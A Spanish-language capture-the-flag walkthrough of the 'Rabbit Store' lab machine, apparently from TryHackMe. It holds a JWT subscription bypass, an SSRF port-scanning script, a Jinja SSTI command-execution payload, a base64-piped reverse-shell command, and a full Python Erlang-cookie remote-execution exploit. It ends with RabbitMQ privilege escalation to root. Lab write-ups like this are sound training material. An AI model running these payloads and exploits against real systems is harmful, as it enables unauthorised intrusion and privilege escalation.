

# Rabbit Store

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado cuatro puertos abiertos en el sistema: el puerto `22` para `SSH`, el `80` para `HTTP`, el `4369`, que corresponde a `epmd` (Erlang Port Mapper Daemon), y el `25672`, cuyo servicio asociado no se conoce.

<figure><figcaption></figcaption></figure>

Vamos a realizar una enumeración del sitio web `http://cloudsite.thm`, que se encuentra en el puerto `80`. Primero, añadimos `cloudsite.thm` al archivo `/etc/hosts`.

```
sudo echo `<ip>   cloudsite.thm` >> /etc/hosts
```

<figure><figcaption></figcaption></figure>

No encontramos nada interesante en este endpoint, así que decidimos acceder al otro endpoint que descubrimos al dirigirnos a la página de inicio de sesión: `http://storage.cloudsite.thm`. También debemos añadirlo al archivo `/etc/hosts`.

```
sudo echo `<ip>   storage.cloudsite.thm` >> /etc/hosts
```

En este punto, podemos crear una cuenta para acceder, pero no contamos con los privilegios necesarios para realizar modificaciones. Por esta razón, recibimos el siguiente mensaje.

<figure><figcaption></figcaption></figure>

Observamos que para acceder necesitamos un token `JWT`. Al inspeccionar la cookie, podemos decodificarla utilizando `CyberChef`.

<figure><figcaption></figcaption></figure>




<figure><figcaption></figcaption></figure>

También podemos decodificar el token en la siguiente página, donde obtenemos más detalles sobre la estructura del token `JWT`.



<figure><figcaption></figcaption></figure>

Con esto en mente, creamos un nuevo usuario e interceptamos la solicitud con `Burp Suite` para añadir `"subscription": "active"` al token, lo que nos permitirá ingresar.

```
{"email":"nan@nan.com",
"password":"nan",
"subscription": "active"
}
```

<figure><figcaption></figcaption></figure>

Así logramos acceder, pero al intentar subir documentos, imágenes o cualquier otro archivo, no obtuvimos resultados, ya que la página eliminaba las extensiones por motivos de seguridad.

<figure><figcaption></figcaption></figure>

Sin embargo, al navegar un poco más con la cuenta activa, nos damos cuenta de que podemos subir archivos a través de `URL`. Decidimos investigar si podemos extraer información de esta manera. Observamos que podemos descargar todos los archivos que se nos ofrecen, aunque sin la extensión, por lo que es probable que podamos extraer datos de `localhost`.

<figure><figcaption></figcaption></figure>

Utilizamos un `script` para identificar más servicios en otros puertos en `localhost`. Para ello, verificamos si el servicio solicitado nos proporciona un enlace de descarga.

```
import requests

# Base URL and endpoint
base_url = "http://storage.cloudsite.thm/api/store-url"

# Headers
headers = {
    "Cookie": "jwt=REDACTED",
    "Content-Type": "application/json"
}

# Function to make POST request to a specific port
def make_request(port):
    # URL to test
    test_url = f"http://127.0.0.1:{port}"
    data = {"url": test_url}

    try:
        # Make the POST request
        response = requests.post(base_url, headers=headers, json=data)

        # Check if the response contains a non-empty "path"
        if response.status_code == 200:
            json_response = response.json()
            if "path" in json_response and json_response["path"]:
                print(f"Port: {port}, Path: {json_response['path']}")
    except requests.RequestException as e:
        # Handle potential request errors
        print(f"Error on port {port}: {e}")

# Iterate over a range of ports (1 to 65535)
for port in range(1, 65536):
    make_request(port)

```

Nos damos cuenta de que tenemos los puertos `80` y `3000` disponibles para descargar datos. Dado que el puerto `80` no nos proporcionó un resultado positivo, comenzaremos con el puerto `3000`.

Como no sabemos qué endpoints podemos explorar, realizaremos un fuzzing para descubrirlos.

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://storage.cloudsite.thm/api/FUZZ
```

<figure><figcaption></figcaption></figure>

El endpoint más relevante que hemos encontrado es `/docs`. Para acceder a él, simplemente ingresamos lo siguiente en el campo de URL.

```
http://127.0.0.1:3000/api/docs
```

<figure><figcaption></figcaption></figure>

```
Endpoints Perfectly Completed

POST Requests:
/api/register - For registering user
/api/login - For loggin in the user
/api/upload - For uploading files
/api/store-url - For uploadion files via url
/api/fetch_messeges_from_chatbot - Currently, the chatbot is under development. Once development is complete>

GET Requests:
/api/uploads/filename - To view the uploaded files
/dashboard/inactive - Dashboard for inactive user
/dashboard/active - Dashboard for active user

Note: All requests to this endpoint are sent in JSON format.

```

Aquí encontramos otro endpoint, que es `/api/fetch_messages_from_chatbot`. Sin embargo, no podemos acceder a él a través del navegador web, así que decidimos ver si podemos modificar las solicitudes utilizando `Burp Suite` para ingresar.

<figure><figcaption></figcaption></figure>

Recibimos un mensaje indicando que el método `GET` no está permitido, por lo que podemos cambiarlo a `POST`.

```
POST /api/fetch_messeges_from_chatbot HTTP/1.1
Host: storage.cloudsite.thm
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
Cookie: jwt=<redacte>
Content-Length: 0

```

Recibimos un error que indica que se requiere un nombre de usuario, así que lo añadimos y logramos resolverlo.

<figure><figcaption></figcaption></figure>

```
{
	"username":"nand"
}
```

<figure><figcaption></figcaption></figure>

Modificamos el nombre de usuario por el siguiente valor para intentar realizar un `SSTI` en la web.

```
{
	"username":"{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}"
}
```

Como podemos observar, ahora es posible ejecutar el comando `id`. Solo nos falta configurar la reverse shell para poder acceder al sistema.

<figure><figcaption></figcaption></figure>

```
{
	"username":"{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}"
}
```

De esta manera, logramos obtener la primera `shell` del laboratorio.

<figure><figcaption></figcaption></figure>

# Shell /azrael



Realizamos la enumeración utilizando `linpeas.sh` y `pspy64`. En `linpeas.sh`, puedes probar diferentes vectores de ataque, pero notamos que tenemos un proceso en `pspy64` que se ejecuta a intervalos regulares.

Además, observamos que hay procesos relacionados con `Erlang` y `RabbitMQ`.


```
2025/08/18 00:44:13 CMD: UID=124   PID=2715   | sh -c exec /bin/sh -s unix:cmd 
2025/08/18 00:44:13 CMD: UID=124   PID=2716   | /bin/sh -s unix:cmd 
2025/08/18 00:44:23 CMD: UID=124   PID=2717   | sh -c exec /bin/sh -s unix:cmd 
2025/08/18 00:44:23 CMD: UID=124   PID=2718   | /bin/sh -s unix:cmd 
2025/08/18 00:44:33 CMD: UID=124   PID=2719   | sh -c exec /bin/sh -s unix:cmd 
2025/08/18 00:44:33 CMD: UID=124   PID=2720   | /usr/bin/df -kP /var/lib/rabbitmq/mnesia/rabbit@forge 
2025/08/18 00:44:38 CMD: UID=124   PID=2721   | /bin/sh /usr/lib/erlang/bin/erl -boot no_dot_erlang -sname epmd-starter-739111939 -noinput -s erlang halt                                                                 
2025/08/18 00:44:38 CMD: UID=124   PID=2722   | /bin/sh /usr/lib/erlang/bin/erl -boot no_dot_erlang -sname epmd-starter-739111939 -noinput -s erlang halt                                                                 
2025/08/18 00:44:38 CMD: UID=124   PID=2724   | sed s/.*\/// 
2025/08/18 00:44:38 CMD: UID=124   PID=2725   | sh -c "/usr/lib/erlang/erts-12.2.1/bin/epmd" -daemon 
2025/08/18 00:44:38 CMD: UID=124   PID=2727   | /usr/lib/erlang/erts-12.2.1/bin/epmd -daemon 
2025/08/18 00:44:38 CMD: UID=124   PID=2732   | /usr/lib/erlang/erts-12.2.1/bin/beam.smp -- -root /usr/lib/erlang -progname erl -- -home /var/lib/rabbitmq -- -boot no_dot_erlang -sname epmd-starter-739111939 -noshell -noinput -s erlang halt                                                                                       
2025/08/18 00:44:38 CMD: UID=124   PID=2749   | 
2025/08/18 00:44:38 CMD: UID=124   PID=2750   | inet_gethost 4 
2025/08/18 00:44:43 CMD: UID=124   PID=2751   | 
2025/08/18 00:44:43 CMD: UID=124   PID=2752   | /usr/bin/df -kP /var/lib/rabbitmq/mnesia/rabbit@forge 
2025/08/18 00:44:53 CMD: UID=124   PID=2753   | 
2025/08/18 00:44:53 CMD: UID=124   PID=2754   | /usr/bin/df -kP /var/lib/rabbitmq/mnesia/rabbit@forge 
2025/08/18 00:45:03 CMD: UID=124   PID=2755   | sh -c exec /bin/sh -s unix:cmd 
2025/08/18 00:45:03 CMD: UID=124   PID=2756   | /bin/sh -s unix:cmd 
2025/08/18 00:45:13 CMD: UID=124   PID=2757   | sh -c exec /bin/sh -s unix:cmd 
2025/08/18 00:45:13 CMD: UID=124   PID=2758   | /bin/sh -s unix:cmd 
2025/08/18 00:45:23 CMD: UID=124   PID=2759   | sh -c exec /bin/sh -s unix:cmd 
2025/08/18 00:45:23 CMD: UID=124   PID=2760   | /bin/sh -s unix:cmd 
2025/08/18 00:45:33 CMD: UID=124   PID=2761   | sh -c exec /bin/sh -s unix:cmd 

```

<figure><figcaption></figcaption></figure>

En el archivo `/etc/passwd`, encontramos un usuario de `rabbitmq`, lo que nos brinda un posible vector de ataque relacionado con Erlang.

<figure><figcaption></figcaption></figure>



Nos dirigimos a `/var/lib/rabbitmq/` para recuperar la cookie `.erlang.cookie`, la cual nos ayudará a obtener una `shell` para `rabbitmq`. Además, con el siguiente código que presentamos a continuación, podremos conseguir la siguiente shell que lo  conseguimos del siguiente repositorio.




```

#!/usr/bin/env python2

from struct import pack, unpack
from cStringIO import StringIO
from socket import socket, AF_INET, SOCK_STREAM, SHUT_RDWR
from hashlib import md5
from binascii import hexlify, unhexlify
from random import choice
from string import ascii_uppercase
import sys
import argparse
import erlang as erl

def rand_id(n=6):
  return ''.join([choice(ascii_uppercase) for c in range(n)]) + '@nowhere'

parser = argparse.ArgumentParser(description='Execute shell command through Erlang distribution protocol')

parser.add_argument('target', action='store', type=str, help='Erlang node address or FQDN')
parser.add_argument('port', action='store', type=int, help='Erlang node TCP port')
parser.add_argument('cookie', action='store', type=str, help='Erlang cookie')
parser.add_argument('--verbose', action='store_true', help='Output decode Erlang binary term format received')
parser.add_argument('--challenge', type=int, default=0, help='Set client challenge value')
parser.add_argument('cmd', default=None, nargs='?', action='store', type=str, help='Shell command to execute, defaults to interactive shell')

args = parser.parse_args()

name = rand_id()

sock = socket(AF_INET, SOCK_STREAM, 0)
assert(sock)

sock.connect((args.target, args.port))

def send_name(name):
  FLAGS = (
    0x7499c +
    0x01000600 # HANDSHAKE_23|BIT_BINARIES|EXPORT_PTR_TAG
  )
  return pack('!HcQIH', 15 + len(name), 'N', FLAGS, 0xdeadbeef, len(name)) + name

sock.sendall(send_name(name))

data = sock.recv(5)
assert(data == '\x00\x03\x73\x6f\x6b')

data = sock.recv(4096)
(length, tag, flags, challenge, creation, nlen) = unpack('!HcQIIH', data[:21])
assert(tag == 'N')
assert(nlen + 19 == length)
challenge = '%u' % challenge

def send_challenge_reply(cookie, challenge):
  m = md5()
  m.update(cookie)
  m.update(challenge)
  response = m.digest()
  return pack('!HcI', len(response)+5, 'r', args.challenge) + response

sock.sendall(send_challenge_reply(args.cookie, challenge))


data = sock.recv(3)
if len(data) == 0:
  print('wrong cookie, auth unsuccessful')
  sys.exit(1)
else:
  assert(data == '\x00\x11\x61')
  digest = sock.recv(16)
  assert(len(digest) == 16)

print('[*] authenticated onto victim')


# Protocol between connected nodes is based on pre 5.7.2 format
def erl_dist_recv(f):
  hdr = f.recv(4)
  if len(hdr) != 4: return
  (length,) = unpack('!I', hdr)
  data = f.recv(length)
  if len(data) != length: return

  # Remove 0x70 from the head of the stream
  data = data[1:]

  print("Received data to parse: %s" % data)  # Logging the raw data

  while data:
    try:
      (parsed, term) = erl.binary_to_term(data)
      if parsed <= 0:
        print('Failed to parse Erlang term, raw data: %s' % data)
        break
    except erl.ParseException as e:
      print('ParseException occurred: %s. Data: %s' % (str(e), data))
      break

    print("Parsed term: %s" % str(term))  # Log parsed term for debugging

    yield term
    data = data[parsed:]


def encode_string(name, type=0x64):
  return pack('!BH', type, len(name)) + name

def send_cmd_old(name, cmd):
  data = (unhexlify('70836804610667') + 
    encode_string(name) + 
    unhexlify('0000000300000000006400006400037265') +
    unhexlify('7883680267') + 
    encode_string(name) + 
    unhexlify('0000000300000000006805') +
    encode_string('call') +
    encode_string('os') +
    encode_string('cmd') +
    unhexlify('6c00000001') + 
    encode_string(cmd, 0x6b) + 
    unhexlify('6a') + 
    encode_string('user'))

  return pack('!I', len(data)) + data


def send_cmd(name, cmd):
  # REG_SEND control message
  ctrl_msg = (6,
    erl.OtpErlangPid(erl.OtpErlangAtom(name), '\x00\x00\x00\x03', '\x00\x00\x00\x00', '\x00'),
    erl.OtpErlangAtom(''),
    erl.OtpErlangAtom('rex'))
  msg = (
    erl.OtpErlangPid(erl.OtpErlangAtom(name), '\x00\x00\x00\x03', '\x00\x00\x00\x00', '\x00'),
    (
      erl.OtpErlangAtom('call'),
      erl.OtpErlangAtom('os'),
      erl.OtpErlangAtom('cmd'),
      [cmd],
      erl.OtpErlangAtom('user')
    ))

  new_data = '\x70' + erl.term_to_binary(ctrl_msg) + erl.term_to_binary(msg)

  print("Sending command data: %s" % new_data)  # Log the command being sent

  return pack('!I', len(new_data)) + new_data

def recv_reply(f):
  terms = [t for t in erl_dist_recv(f)]
  if args.verbose:
    print('\nReceived terms: %r' % (terms))

  if len(terms) < 2:
    print("Error: Unexpected number of terms received")
    return None

  answer = terms[1]
  if len(answer) != 2:
    print("Error: Unexpected structure in answer")
    return None

  return answer[1]


if not args.cmd:
  while True:
    try:
      cmd = raw_input('%s:%d $ ' % (args.target, args.port))
    except EOFError:
      print('')
      break

    sock.sendall(send_cmd(name, cmd))

    reply = recv_reply(sock)
    if reply:
      sys.stdout.write(reply)
    else:
      print("Failed to receive a valid reply")

else:
  sock.sendall(send_cmd(name, args.cmd))

  reply = recv_reply(sock)
  if reply:
    sys.stdout.write(reply)
  else:
    print("Failed to receive a valid reply")


print('[*] disconnecting from victim')
sock.close()

```

```
python2 shell-erldp2.py rabbitstore.thm 25672 REDACTED
```

<figure><figcaption></figcaption></figure>

Para subir la reverse shell, debemos codificar nuestro comando en `Base64` y enviarlo de la siguiente manera.

```
python2 shell-erldp2.py rabbitstore.thm 25672 REDACTED 'echo <reb-shell> | base64 -d | bash'
```

Tienes que intentarlo con diferentes comando de shell.

<figure><figcaption></figcaption></figure>

# Shell /rabbitmq

Al enumerar los usuarios, encontramos el archivo `rabbit_user.DCD`. Este archivo es parte de la base de datos de `RabbitMQ`. Contiene un mensaje que indica que la contraseña del usuario root es la misma que el hash `SHA-256` de la contraseña del usuario `root` de `RabbitMQ`.

<figure><figcaption></figcaption></figure>

Tambien podemos cambiar los permisos a la cokkie `.erlang.cookie` para mandar comandos.

```
chmod 400 .erlang.cookie


rabbitmqctl list_users   
```

```
Listing users ...
user    tags
The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.      []
root    [administrator]

```

<figure><figcaption></figcaption></figure>

Al investigar el funcionamiento de `RabbitMQ`, descubrimos que podemos exportar las definiciones como `administrador`, las cuales incluyen los `password_hash` mencionados en el archivo de usuarios. Ahora, nuestra intención es crear un usuario administrador y obtener las definiciones utilizando este nuevo usuario.

```
rabbitmqctl add_user nando nando 
rabbitmqctl set_permissions -p / nando ".*" ".*" ".*"
rabbitmqctl set_user_tags nando administrator
rabbitmqadmin export rabbit.definitions.json -u nando -p nando 
```
<figure><figcaption></figcaption></figure>


Y para ver los hashes que contiene con el siguiente comando lo podemos ver:

```
rabbitmqadmin export definitions -u nando -p nando
```

Nos muestra el hash del usuario `root`, y con el siguiente código podemos decodificar dicho hash.



Solo podemos usar una parte del codigo que es lo siguiente:

```
#!/bin/env/python
import hashlib
import binascii

password_hash = `<HASH>`
def decode_rabbit_password_hash(password_hash):
    password_hash = binascii.a2b_base64(password_hash)
    decoded_hash = password_hash.encode('hex')
    return (decoded_hash[0:8], decoded_hash[8:])

print(decode_rabbit_password_hash(password_hash))
```

```
python3 decode-hash.py
```

De esta manera, obtendremos la contraseña del usuario `root` y podremos iniciar sesión como tal.

```
su root
```

<figure><figcaption></figcaption></figure>

---------------

>Cuanto más entrenas, menos sufres en el campo de batalla, así que aprende a aceptar las molestias. Haz de ellas tu compañero de entrenamiento diario; no son algo negativo, sino como un entrenador que te ayudará a enfrentar mejor los desafíos de la vida. Puedes hacerlo de diversas maneras: saliendo un poco de tu burbuja de conformidad cada día, como entrenar en el frío por la mañana, ayunar, permanecer en silencio cuando normalmente buscas distracciones, hablar en esa reunión que sueles evitar, o aceptar una invitación desafiante, como una nueva clase o un viaje solo, en lugar de refugiarte en la comodidad.

>Recuerda que el desafío no es un obstáculo, sino el camino. Así que, en lugar de huir, enfrenta cada malestar con un poco más de coraje, añadiendo un ladrillo más de valentía a la pared de tu mente. Con el tiempo, las situaciones que antes te asustaban se volverán más fáciles de manejar. Cuando la tormenta de la vida aparezca, no te sorprenderá, ya que habrás estado entrenando en la incomodidad controlada. 
>
>Nunca lo olvides: la zona de confort es un lugar hermoso y acogedor, pero absolutamente nada crece allí.

><figure><figcaption></figcaption></figure>